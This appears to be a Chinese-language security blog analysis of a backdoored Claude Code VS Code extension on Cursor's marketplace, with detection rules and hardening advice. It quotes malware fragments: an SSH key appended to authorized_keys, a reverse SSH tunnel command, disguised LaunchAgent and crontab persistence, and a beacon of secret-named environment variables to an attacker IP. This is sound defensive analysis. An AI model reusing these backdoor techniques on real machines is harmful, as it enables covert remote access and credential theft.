

# 当官方插件在加载瞬间就变成后门：Claude Code VS Code 扩展投毒事件全链路拆解——一个 IDE 插件如何等价于一台无堡垒机

2026 年 10 月 30 日，Hacker News 首页被一条帖子顶到 732 分、457 条评论：**Backdoor in Claude Code for VS Code extension on the Cursor Marketplace**。不到十二小时后，Cursor 官方安全公告确认了这件事——`Anthropic.claude-code` 的 **2.1.312 和 2.1.313** 两个版本在 Cursor 的 VS Code 扩展市场里被人改过，夹带了一段会在 Node 加载文件时立刻执行的后门代码，试图在 macOS / Linux / Windows 上装 SSH 后门、拉反向隧道、写开机自启。

这件事的传播速度比事件本身更值得研究。评论区第一条高赞是："下架了，但已经装了的人怎么办？"第二条是："只影响 Cursor 用户，还是所有 VS Code 用户？"第十条开始有人翻 Open VSX 的发布权限模型。到第十四条，已经有人在问："Open VSX 连扩展签名都没有？"

我把安全研究方 Phorion 的样本分析和 Cursor 的官方时间线对了一遍，结论是：**这不是一次高明的攻击，而是一次平庸的攻击撞上了一个结构性的漏洞。** 攻击者的代码里有三处低级 bug，其中一处让 macOS 上的入站路径直接失效。但真正让人后背发凉的地方在于——他根本不需要写对。他只需要在正确的时间，把正确的文件推到正确的 registry 上，剩下的部分由现代 IDE 的扩展模型免费赠送：完整用户权限、无沙箱、静默自动更新、以及在开发者机器上畅通无阻的出网能力。

这篇文章会做四件事：把攻击链逐段拆开（含代码级细节），解释为什么这类攻击的"成功率"其实和攻击者水平无关，画出 VSIX 供应链的真实攻击面地图，最后给出一套可以今天就落地的检测与治理方案。

---

## 一、先把时间线钉死：到底发生了什么

事实层有几个必须分清的点，因为中文技术圈在事发后 24 小时内的转述出现了明显偏差。

**受影响范围。** Cursor 公告写明：恶意版本为 `Anthropic.claude-code` 的 2.1.312 与 2.1.313，上架窗口是太平洋时间 10 月 29 日 02:27 到 13:35，约 11 小时。Phorion 的样本分析主要针对 2.1.313。Cursor 声明这些版本"并非由 Anthropic 开发"，并强调自己的其他扩展与产品未受影响。

**不是 Open VSX。** 这是评论区最大的误判。有人看到 Cursor 就联想到 Open VSX（VSCodium 系 IDE 的公共 registry），进而推断"所有 VS Code 分支都中招"。实际上 Cursor 在这次事件中使用的是**自建的内置市场**。但社区对 Open VSX 的担忧并非空穴来风——Cursor、Windsurf、Trae、Kiro、Anti Gravity 这类 AI IDE 大量基于 Code OSS 分支，理论上都可以指向任意 registry，而 Open VSX 长期缺乏强制签名机制。

**官方 VS Code 市场。** Anthropic 方面（HN 评论引用的 Felix 回应）称官方 Microsoft 市场未受影响。但社区观察到 `2.1.313` 在官方市场也搜索不到，这更可能是同步下架的结果，而非感染证据。这种"看不见"本身构成了额外的取证困难——**下架动作会把证据一起抹掉**，事后想判断某个开发者机器上装的是干净版还是投毒版，只能靠本地哈希比对。

**攻击者基础设施已下线。** Cursor 与云厂商协作关停了 `134.209.82.225`。这意味着 beacon 和反向隧道在公告发布时已失效，但**已经落地的持久化脚本仍然在机器上**，每 60 秒重试一次连接一个不存在的服务器。这是最容易被误判为"没事了"的地方。

时间线里最刺眼的一个数字是 11 小时。一个被投毒的、带有有效发布者身份的扩展，在一个商业 IDE 市场里活了 11 小时。而 VS Code 扩展的默认行为是**自动更新**——用户不需要点任何东西。

---

## 二、攻击链拆解：四段代码，一个 IIFE

Phorion 拿到的样本结构非常典型：`extension.js` 是一个压缩后的正常 bundle，前面被**前置拼接**了一个 IIFE（立即执行函数表达式）。

```js
(function(){
  var cp = require("child_process"),
      fs = require("fs"),
      os = require("os"),
      path = require("path"),
      http = require("http"),
      crypto = require("crypto");
  // ... payload
})();
```

这个位置选择是整个攻击里最"专业"的一环。VS Code 扩展的入口是 `activate()` 回调，正常情况下宿主只在需要时才调用它。但 Node 的模块加载机制决定了：**`require('extension.js')` 一旦发生，文件顶层代码就执行完毕**。攻击者把 payload 放在模块作用域，等于绕过了整个扩展生命周期，也绕过了任何"用户是否启用了这个扩展"的判断。

换句话说，用户甚至不需要打开 Claude Code 面板。只要 IDE 启动时加载了扩展宿主进程，后门就跑了。这也解释了为什么 Cursor 公告里写"outside of highly unusual circumstances... this step would fail"——他们知道 payload 已经执行，只是执行得不完整。

### Stage 1：往 `authorized_keys` 里塞一把钥匙

第一段逻辑朴素得近乎粗暴：

```js
var sd = path.join(HOME, ".ssh"),
    ak = path.join(sd, "authorized_keys");
// ...
if (cur.indexOf("svc-telemetry") < 0) {
  fs.appendFileSync(ak, PUB + "\n");
  d.sshKey = "added";
} else {
  d.sshKey = "present";
}
```

它创建 `~/.ssh`（`0700`）、把攻击者控制的 Ed25519 公钥追加进 `authorized_keys`（`0600`），注释字段是 `svc-telemetry`。注意去重逻辑用的是 `indexOf("svc-telemetry")` 而不是比对公钥指纹——这是一个**检测机会**：如果有人在 `authorized_keys` 里手写了一条注释含 `svc-telemetry` 的合法条目，payload 会认为自己已经装好了，实际没装。反过来，取证时也不能只 grep 注释字符串，得算指纹。

然后是尝试开启 SSH 服务：Linux 走 `systemctl` → `service` → `/etc/init.d/` 三级 fallback；macOS 走 `systemsetup`；Windows 走 PowerShell 装 OpenSSH Server。三段都没有提权 exploit，全靠 `sudo -n`——也就是"仅当用户已配置免密 sudo 时才成功"。

### 那个让 macOS 失效的 bug，以及它为什么不该让人安心

macOS 分支是这样写的：

```js
else if (PLAT === "darwin") {
  var rl = ex("systemsetup -getremotelogin 2>/dev/null", 4000);
  d.remoteLogin = rl;
  if (/Off/i.test(rl)) {
    det("sudo -n systemsetup -setremotelogin on >/dev/null 2>&1");
    d.remoteLoginOn = "tried";
  }
}
```

问题在于：`systemsetup -getremotelogin` **需要管理员权限**。以普通用户运行时，它会往 stdout 打印 `You need administrator access to run this tool... exiting!`，然后**以退出码 0 结束**。而 `ex()` 帮助函数只取 stdout、只在抛异常时返回空字符串：

```js
function ex(c, t) {
  try {
    return cp.execSync(c, {timeout: t || 3000, stdio: ["ignore","pipe","ignore"], windowsHide: true}).toString().trim();
  } catch (e) { return ""; }
}
```

于是 `rl` 是那段错误文本，`/Off/i.test(rl)` 为 `false`，`if` 块被整体跳过。攻击者把"我没权限检查 SSH 是不是关着"当成了"SSH 已经开着"。

这个 bug 的三重含义值得逐条说清：

1. **对攻击者**：入站路径断了。反向隧道可以建立（出站 22 端口通常放行），但隧道远端转发到 `localhost:22` 时会打到关闭的端口。攻击者拿不到 shell。
2. **对防守方**：**不能把它当防线**。如果机器本来就开了"远程登录"（很多开发者为了 SSH 到本机调试确实开着），或者用户事后打开了，后门立刻可用。而且 `authorized_keys` 里那把钥匙和 LaunchAgent 都在原地等着。
3. **对取证**：进程遥测里**看不到** `systemsetup -setremotelogin on` 的执行记录，容易被误判为"payload 没跑起来"。实际上它跑了，只是在第三步自己绊倒。

这是本次事件最典型的一课：**攻击的失败点和攻击的意图是两件事。** 判断影响面要看意图（拿到了持久化 + 钥匙 + 侦察数据），而不是看最终有没有 shell。

### Stage 2：`-R *:0:localhost:22` 的反向隧道

第二段把一枚内嵌的、未加密的 Ed25519 私钥（注释 `svc-telemetry-tun`）写到临时目录，文件名是 `.stk_` 加 `md5(hostname + HOME)` 的前十位——这个细节说明作者想过"同一台机器多次运行不要互相覆盖"，也给了取证一个稳定的文件名模式。

```js
var kf = path.join(TMP, ".stk_" + crypto.createHash("md5")
  .update(String(os.hostname()) + HOME).digest("hex").slice(0, 10));
var RF = (PLAT === "win32") ? "\"*:0:localhost:22\"" : "'*:0:localhost:22'";
```

隧道命令是 `ssh -N -R *:0:localhost:22 ...`。`-R` 的 `0` 是关键：它让**服务端动态分配一个监听端口**，然后把打到那个端口的流量转发回受害者本机的 22。攻击者随后另开一条连接，连自己服务器的那个随机端口，用 Stage 1 埋的公钥认证受害者的 sshd——完整的交互式 shell 和文件传输，而 JS 里不需要写任何 C2 协议。

这是"用系统自带能力当 C2"的标准范式：`sshd` + `ssh -R` 的组合，流量是加密的 SSH，特征上跟正常的远程开发（VS Code Remote-SSH、Cursor 的远程模式）几乎无法区分。命令里还带了 `-o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o BatchMode=yes -o IdentitiesOnly=yes -o ServerAliveInterval=30 -o ServerAliveCountMax=3 -o ExitOnForwardFailure=yes`——一套"别弹窗、别记录、别断线"的标准静默参数。

如果装了 `autossh` 就用它，否则退回 `ssh`，外面套一个 `sleep 60` 的 detached 重试循环，用 `pgrep` 防止起重复进程。detached 意味着**关掉 IDE 隧道还在**。

### Stage 3：三平台的持久化，和又一个 bug

| 平台 | 落盘文件 | 持久化机制 |
|------|----------|------------|
| Linux | `~/.config/.smt`、`~/.config/.smtk` | 写 shell 脚本后往用户 crontab 加 `@reboot` |
| macOS | `~/.config/.smt`、`~/.config/.smtk`、`~/Library/LaunchAgents/com.apple.sysmond.plist` | 用户级 LaunchAgent，`RunAtLoad` + `KeepAlive` |
| Windows | `~/.config/smt.cmd`、`%APPDATA%\...\Startup\sysmon.cmd` | 尝试建 SYSTEM 计划任务，失败则丢进启动文件夹 |

macOS 这条最"像真的"：`com.apple.sysmond.plist` 是一个伪装成苹果系统守护进程的 Label，装在**用户级** `LaunchAgents` 而不是 `LaunchDaemons`——后者需要 root，前者不需要。`RunAtLoad` 保证登录即跑，`KeepAlive` 保证被杀就重启。这是持久化里性价比最高的选择：零权限、零弹窗、重启存活。

Linux 分支有个会自伤的 bug：crontab 检查逻辑在重复执行时可能**清空用户已有的 cron 任务**。对攻击者来说是噪音，对受害者来说是额外损失——如果你的机器上原本有备份任务、指标上报任务，它们可能在这次事件里一起消失，而且没人会把它和投毒联系起来。

Windows 分支的 bug 更明显：它通过 `det()` 辅助函数执行 PowerShell 命令，而 `det()` 内部硬编码了 `/bin/sh`。在标准 Windows 上这条路走不通，只能退回用户级启动文件夹。

### Stage 4：侦察 beacon，只要变量名不要变量值

最后一段收集主机信息，`HTTP POST` 明文发到 `134.209.82.225:8099/beacon`（同时也发一份到 `127.0.0.1:8099`，样本里没有对应的本地监听器，动机不明）：

- hostname、username、OS、arch、home、cwd
- `git config --global user.email`
- 公网 IP（先查 `ifconfig.me`，失败退 `api.ipify.org`）
- 各阶段状态标志（key 是否加上、persistence 用了哪种）
- **最多 40 个匹配 `/KEY|TOKEN|SECRET|PASS|AWS|GCP/i` 的环境变量名**

最后这条是本次事件里最值得单独拎出来讲的设计。代码是：

```js
Object.keys(process.env)
  .filter(function(k){ return /KEY|TOKEN|SECRET|PASS|AWS|GCP/i.test(k); })
  .slice(0, 40)
```

它只取 `Object.keys()`，**不取值**。很多分析到这里就下结论"没有凭证泄露"。这个结论对，但结论背后的推论更重要：**攻击者在做资产测绘，不是在做一次性窃取。** 他要知道这台机器上有没有 `AWS_ACCESS_KEY_ID`、有没有 `OPENAI_API_KEY`、有没有 `GITHUB_TOKEN`，好决定后续值不值得花时间进来。一旦 Stage 2 的隧道打通，这些值随时可以现场读。

所以"env 只泄露了名字"不能减轻事件的严重级别。它是**攻击链的第二阶段前置侦察**，不是终点。

---

## 三、原罪不在代码，在扩展的权限模型

把这个 payload 的每一行都看完，会发现它没有任何 0day，没有任何内存破坏，没有任何混淆对抗。它用的全是 Node 标准库和系统自带命令。它能造成威胁，纯粹是因为**它跑在了正确的位置上**。

VS Code 及其所有分支的扩展宿主（Extension Host）是一个普通 Node 进程，运行在**当前登录用户的身份**下，拥有：

- 读整个 home 目录（SSH 私钥、`.aws/credentials`、`.npmrc`、`.git-credentials`、浏览器 profile）
- 执行任意子进程（`child_process` 全套）
- 无限制出网（企业通常不会对开发者笔记本的 443/22 出站做域名白名单）
- 读写工作区源码（也就是公司的全部知识产权）

而扩展的获取路径上有四个环节，每一个都可以被单点突破：



**环节一：发布者身份。** 这是本次最可能的入口。`Anthropic.claude-code` 这个 publisher 的凭据如果泄露（长期有效的 PAT 最常见），攻击者可以直接 `vsce publish` 一个改过的包，无需触碰 Anthropic 的源码仓库、CI 或任何构建产物。Open VSX 社区讨论里提到它支持 OIDC 可信发布，但"支持"和"强制"是两回事——长期 token 只要不撤销就永久有效，而它的泄露往往发生在开发者笔记本、CI 环境变量、或者一次 `npm token` 误打印里。

**环节二：构建产物。** 就算源码干净，`extension.js` 是打包压缩后的单文件。本次的投毒方式——在 bundle 前面拼一个 IIFE——在 review 时几乎不可见，在 diff 里表现为"整个文件变更"。VSIX 本身是个 zip，`extension/extension.js` 只是其中一个条目；除非市场做**发布产物与源码构建的可复现比对**，否则审核看的是元数据、描述、权限声明，不是 2MB 的压缩 JS。

**环节三：Registry 存储与分发。** Cursor 用的是自建市场，Microsoft 官方市场、Open VSX 各有一套。多 registry 意味着**多份发布凭据、多套审核标准、多次同步**。本次事件中 `2.1.313` 在不同 registry 的去留状态就引发了大量猜测——同步下架的速度不一，反而制造了信息真空。

**环节四：客户端。** 这是最被低估的一环。VS Code 默认 `extensions.autoUpdate: true`，检查周期是小时级。也就是说，**攻击者的暴露窗口不是"用户手动下载"的那一刻，而是"下一次自动更新检查"**。Cursor 公告给出的 11 小时窗口，恰好覆盖了一个工作日的大半个上午——北美开发者上班打开 IDE 的时间段。

把四环串起来看，攻击者的成本函数是这样的：

| 攻击手段 | 所需能力 | 被发现的概率 | 影响面 |
|---------|---------|------------|--------|
| 投毒开源依赖（npm 包） | 中（需要目标项目引用） | 中 | 窄 |
| 投毒 IDE 扩展 | **低**（一个 publisher token） | 低（无签名校验） | **极宽** |
| 攻破 CI 系统 | 高 | 中 | 宽 |
| 0day 漏洞 | 极高 | 高 | 窄 |

一个 publisher token 换全公司开发者机器的持久化访问——这是当下投入产出比最高的供应链攻击路径，没有之一。而它需要的技术门槛，从本次样本看，是"会写 200 行 Node"。

### 为什么"扩展沙箱"这条路走不通

有人会问：为什么不像浏览器扩展那样做沙箱和权限声明？技术上不是不能，是**生态不允许**。VS Code 扩展的能力边界就是"随便跑"，这是它拥有 6 万+ 扩展、覆盖调试器、语言服务器、远程开发、容器编排的根本原因。任何实质性的沙箱都会让 Remote-SSH、Dev Containers、Jupyter 这些核心扩展失效。

于是形成了一个尴尬的均衡：**市场要繁荣就必须给全权限，给全权限就无法审核，无法审核就只能靠发布者自律，而发布者自律的基础是凭据安全——恰恰是最容易失守的一环。**

这并不是要否定 VS Code 的设计。它和 npm、PyPI、Docker Hub 面临的是同一个结构性难题：**中心化分发的信任模型，建立在"发布者账号不会被攻破"这个从未被验证过的假设上。**

---

## 四、检测工程：从"事后删插件"到"事中看得见"

Cursor 给的处置建议里有句话很关键：**"卸载扩展可能不够——payload 会落下独立运行的持久化脚本。"** 这句话点出了这类事件的实际难点：清除分四层，每层都要单独验证。

1. **扩展层**：`~/.cursor/extensions/anthropic.claude-code-2.1.313/` 是否存在
2. **钥匙层**：`~/.ssh/authorized_keys` 里是否有 `svc-telemetry` 注释的公钥（要算指纹，别只看字符串）
3. **持久化层**：`~/Library/LaunchAgents/com.apple.sysmond.plist`、`~/.config/.smt`、`~/.config/.smtk`、用户 crontab 的 `@reboot`、Windows 启动文件夹的 `sysmon.cmd`
4. **进程层**：detached 的 `ssh -N -R *:0:localhost:22` 重试循环，PID 可能已经脱离 IDE 进程树

但"事后清除"是受害者视角。更有价值的是把这次的样本转成**可持续的检测能力**。以下是我认为优先级最高的五条规则，都可以在不开内核 Hook 的前提下落地。

### 规则 1：`authorized_keys` 的非 shell 写入（最高优先级）

样本用 `fs.appendFileSync` 直接写文件，**不会产生任何 `echo` / `tee` / `cat >>` 的子进程**。所以只监控 shell 命令行的规则会完全漏掉。必须监控文件写入事件：

```
事件源: ESF (macOS) / auditd+fanotify (Linux) / Sysmon EventID 11 (Windows)
条件:   file_path endswith "/.ssh/authorized_keys"
        AND process_image IN ("Code Helper*", "Cursor Helper*", "node", "electron*")
动作:   告警 + 记录写入内容
```

这条规则的价值不在于抓本次样本，而在于**它抓的是"任何进程以编程方式改 authorized_keys"这一类行为**。正常的 `ssh-copy-id` 是 `ssh` 进程；正常的配置管理是 `ansible`/`chef`；IDE helper 进程去改这个文件，本质上没有合法场景。

### 规则 2：反向隧道参数组合

`-R *:0:localhost:22` 这个组合很少见——`*` 绑所有接口、`0` 让服务端分配端口、目标固定 `localhost:22`。检测点在进程命令行：

```yaml
title: Reverse SSH Tunnel with Dynamic Port to Local sshd
detection:
  selection:
    process.name: ["ssh", "autossh"]
    process.args|contains|all:
      - "-R"
      - "localhost:22"
  filter_dev:
    process.parent.name: ["code-remote-ssh", "cursor-remote"]
  condition: selection and not filter_dev
level: high
```

`-o UserKnownHostsFile=/dev/null` + `-o StrictHostKeyChecking=no` + `-N` 同时出现，是更强的信号——正常运维不会三个一起用。

### 规则 3：伪装成 Apple 的用户级 LaunchAgent

`com.apple.sysmond` 这个 Label 本身就可疑：苹果的 `sysmond` 是系统守护进程，**不该出现在 `~/Library/LaunchAgents`**。这类"用系统命名空间伪装"的检测逻辑可以泛化成一条：

> 用户级 LaunchAgents 中，Label 以 `com.apple.` 开头但 plist 文件位于 `~/Library/LaunchAgents/` 且 `ProgramArguments` 指向 `~/.config/` 或 `/tmp/` 下的脚本 → 高危。

同理适用于 systemd user unit 里伪装成 `dbus-`、`systemd-` 前缀的条目。

### 规则 4：临时目录里的 SSH 私钥

样本把私钥写到 `$TMPDIR/.stk_<10位hex>`。这条可以泛化：

```
file_path matches "$TMPDIR/\..{1,8}_[0-9a-f]{8,}" AND content contains "BEGIN OPENSSH PRIVATE KEY"
```

更通用的版本：**任何进程在 `/tmp`、`$TMPDIR`、`~/Library/Caches` 写入含 `BEGIN * PRIVATE KEY` 的文件**，都值得看一眼。正常运行时不会有这个行为。

### 规则 5：出网侧——但别指望它

beacon 打的是 `134.209.82.225:8099` 的明文 HTTP。用 IP 直连 + 非标准端口 + `POST /beacon`，在网络侧很容易识别。但**反向隧道走的是 22 端口的标准 SSH**，加密且与远程开发流量同构，网络层基本无解。

这引出一个很重要的判断：**IDE 扩展类威胁的检测重心必须放在主机侧，而不是网络侧。** 这是它和传统供应链攻击（比如投毒 npm 包往外传数据）最大的区别——后者的行为终点是"出网"，前者的行为终点是"落一个本地服务 + 一条隧道"，出网流量本身就长得像正常工作流量。

### 一个反直觉的结论：日志留存比检测规则更重要

本次事件里，绝大多数团队根本没能力回答"我们有多少台机器装了 2.1.313"。原因不是没有 EDR，而是：

- 扩展安装事件没有集中采集（IDE 不往 SIEM 发 anything）
- 版本信息只存在于本地 `extensions.json`，且自动更新会覆盖
- 事后下架导致无法回溯"当时市场里有什么"

所以比写规则更紧急的一件事是：**把开发者的扩展清单变成可查询的资产。** 一个每天跑一次、把 `~/.cursor/extensions/extensions.json` 和 `~/.vscode/extensions/extensions.json` 上报到 CMDB 的小脚本，价值高于十条 Sigma 规则。因为前者让你能**回答影响面**，后者只能在你已经知道要看什么的时候才有用。

---

## 五、治理：把开发者机器当成生产环境来管

事件发生后，最常见的两种反应都没有意义。一种是"我们不用 Cursor"，另一种是"让所有人卸载插件"。前者忽略了 Microsoft 官方市场、Open VSX、JetBrains 插件市场面临完全相同的模型风险；后者无法防止下一次。

真正能改变风险曲线的，是下面这五条。按投入产出比排序。

**第一，锁版本，关自动更新。** `extensions.autoUpdate: false` 这一条设置能砍掉绝大部分暴露窗口。代价是手动升级，收益是**你重新获得了"什么时候接受新代码"的决定权**。对企业环境，更进一步的做法是自建扩展镜像：内部 registry 只同步经过审核的特定版本，开发者从内网拉取。这不是理论方案——`vsce` 支持打包离线 VSIX，策略下发用 MDM 或 dotfiles 管理都能做到。

**第二，建立扩展白名单，而不是黑名单。** 黑名单永远滞后于事件。白名单的判定标准应该是"这个扩展是否需要执行任意代码 + 是否需要出网"。像 Claude Code、Copilot、Continue 这类**本质上是"给我一个能跑命令的 agent"** 的扩展，应该被单独归类为最高风险，走审批。因为它们的能力集和后门的能力集**在技术上无法区分**——这是下一节要展开的核心问题。

**第三，发布者凭据的卫生。** 如果你的团队自己也发布扩展或 npm 包，检查三件事：发布 token 是否长期有效（应改为 OIDC 短期凭据或至少 90 天轮换）、是否绑定了 CI 的 IP/环境、是否存在多个维护者共享同一 token。本次攻击最可能的入口就是这一类凭据，而它是**唯一一个你能主动加固的环节**。

**第四，出站流量的最小化。** 对开发者笔记本做 443 白名单不现实，但可以做两件低成本的事：禁止直连 IP 的 HTTP（本次 beacon 是 `http://134.209.82.225:8099`，明文、IP、非标端口，三个特征全中）；对 22 端口的**出站**做审计而非阻断（远程开发需要它，但"哪台笔记本在工作时间向一个陌生 IP 建 SSH"是强信号）。

**第五，凭证的生命周期要比机器的生命周期短。** 样本只收集了环境变量名，这提醒我们重新审视一个默认假设：开发者笔记本上长期驻留的云凭证。理想状态是全部换成短期 STS / OIDC 换取、TTL 以小时计、绑定设备。这样即使机器被持久化控制，攻击者拿到的也是几小时后过期的票据，而不是一把永久钥匙。这条改造工作量最大，但它是**唯一一条能在"后门已经装上"的前提下仍然限制损失的**。

值得强调的是，这五条里没有一条是"加强审核"。因为审核在中心化市场里已经证明无效——本次攻击的 payload 是拼接在压缩 bundle 前面的 IIFE，任何基于"看代码"的审核都会漏。

---

## 六、更深一层：一个能跑命令的扩展，和一个后门有什么区别

前面的分析都是安全视角。但这件事对做 AI 工具的人有一个更尖锐的问题，我想单独说。

Claude Code 这个扩展的**正常功能**包括：读取工作区所有文件、在用户权限下执行 shell 命令、访问网络、读写配置、维护跨会话状态。它的**恶意版本**做的事情是：读取主机信息、写 `authorized_keys`、启 sshd、建反向隧道、写开机自启。

把两张清单放在一起看，会发现重合度极高：**都是以用户权限执行任意操作 + 出网。** 区别只在于"意图"，而意图不在技术层面可判定。

这不是在指责 Claude Code 或任何 agent 工具。这是在指出一个正在形成的结构性事实：

> **AI 编码 agent 的产品价值，直接等于它被授予的权限广度。而权限广度，直接等于它被投毒后的爆炸半径。**

一个只会补全的 Copilot 被投毒，最坏结果是往外传代码。一个能自主执行命令、能读写文件系统、能发起网络请求的 agent 被投毒，最坏结果是**一台被你自己的 IDE 亲手接管的机器**。能力越强，同样的信任错误代价越高。

于是有三个推论，我认为在未来一年会反复被验证：

**推论一：agent 工具的"官方渠道"概念会瓦解。** 传统软件的信任链是"官网 → 下载 → 校验签名"。但 agent 工具的分发路径变成了"市场 → 自动更新 → 静默执行"，中间没有任何一个环节是用户可见的。当"官方扩展"这个词已经不足以描述信任状态时（本次事件里，恶意版本确实是"官方 publisher 发布的"），用户需要的是**产物级证明**：这个 VSIX 的哈希对应哪次构建、哪次构建对应哪个 commit、那个 commit 是否被签名。Sigstore / SLSA 这一套在容器和 npm 上已经跑通了，IDE 扩展生态还基本是空白。

**推论二：agent 的运行环境会从"笔记本"迁到"一次性容器"。** HN 评论区里有人提到自己用脚本把工作目录挂进容器跑 agent，还有人提到 gVisor 和 Firecracker。这个方向是对的，但它解决的是"agent 误操作"，不完全解决"agent 被投毒"——因为容器里通常还是挂着宿主的凭证和源码。真正有效的形态是：**agent 在一个无凭证的容器里工作，凭证通过短时令牌代理注入，出网经过可审计的网关。** 这本质上就是把 CI runner 的安全模型搬到本地。

**推论三：安全团队必须开始管"开发者工具"，而不只是"生产服务"。** 过去十年，安全的边界画在生产环境：WAF、堡垒机、K8s 准入控制。但当一个开发者的笔记本上跑着能读全部源码、持有 5 个云账号凭证、且每天自动从公网拉取可执行代码的软件时，**这台笔记本的等效权限已经超过了一台生产跳板机**，而它受到的管控通常接近于零。

本次事件里有一句评论我很认同："VS Code 扩展在安全上一直很糟糕。"糟糕的不是某个具体实现，而是整个生态默认了一个前提——**扩展作者是善意的，且其账号不会被攻破**。这个前提在 2020 年代已经被 npm 生态反复证伪，只是 IDE 扩展生态还没经历过同等强度的对抗。

现在它经历了。11 小时，一个 publisher token，三个 bug，732 分。

---

## 七、我的判断

如果只看代码质量，这次攻击是业余的：一个把权限检查失败当成"已经开启"的逻辑错误，一个在 Windows 上用 `/bin/sh` 执行 PowerShell 的常识性错误，一个会清空用户 crontab 的自伤 bug。Phorion 的分析里甚至带着一点"这写得真糙"的语气。

但**用代码质量评估威胁等级，是这次事件里最危险的误判。**

攻击者的目标从来不是"写一个完美的后门"，而是"在最短时间内拿到尽可能多的机器上的立足点"。他拿到了：有效的发布者身份、11 小时的曝光窗口、覆盖 macOS/Linux/Windows 三平台的全量投放、以及一批已经写入 `authorized_keys` 的公钥和已经加载的 LaunchAgent。至于 shell 有没有打通，取决于受害者机器上 sshd 是否恰好开着——这是一次**概率游戏**，不是一次精确打击。而在他投放的样本里，只要有 1% 的机器开着远程登录，他就赢了。

对个体开发者，我的建议很具体：现在就去 `grep svc-telemetry ~/.ssh/authorized_keys`，检查 `~/Library/LaunchAgents` 里有没有 `com.apple.sysmond.plist`，检查 `~/.config/.smt` 是否存在。如果命中，别删文件了事——按"机器已被完全控制"处理，轮换所有能从这台机器上读到的凭证，从另一台干净设备操作。

对团队，优先级是：先把扩展清单变成可查询资产，再关自动更新，然后做白名单。检测规则可以慢慢补，但**"我现在有多少台机器装了什么版本的什么扩展"这个问题的答案，必须在下一个事件之前就有**。

对整个 AI 工具行业，这次事件真正提出的问题是：当一个产品的核心能力是"以你的身份做任何事"时，它的分发链路需要比普通软件高一个数量级的保证。目前这个保证不存在。不是某一家公司的问题，是整个 IDE 扩展生态还停留在"扩展 = 便利性插件"的时代认知里，而扩展早就不只是插件了。

它是你开发机上权限最大的那段代码。而它昨天还是别人写的。
